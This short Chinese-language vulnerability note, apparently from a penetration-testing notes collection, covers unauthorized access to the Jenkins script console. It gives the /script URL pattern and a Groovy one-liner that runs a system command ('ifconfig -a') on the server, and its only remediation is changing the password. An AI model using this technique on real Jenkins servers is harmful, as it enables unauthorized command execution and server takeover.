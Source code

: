 ### 一 漏洞描述
Jenkins未授权访问

默认情况下 Jenkins 面板中用户可以选择执行脚本界面来操作一些系统层命令，攻击者可通过未授权访问漏洞或者暴力破解用户密码等，进脚本执行界面从而获取服务器权限。

### 二 漏洞利用
脚本执行界面 执行脚本、获取服务器权限  

http://xx.xx.xx.xx:8080/script  
执行: println "ifconfig -a".execute().text  
![img.png](img.png)

### 三 漏洞修复
修改口令

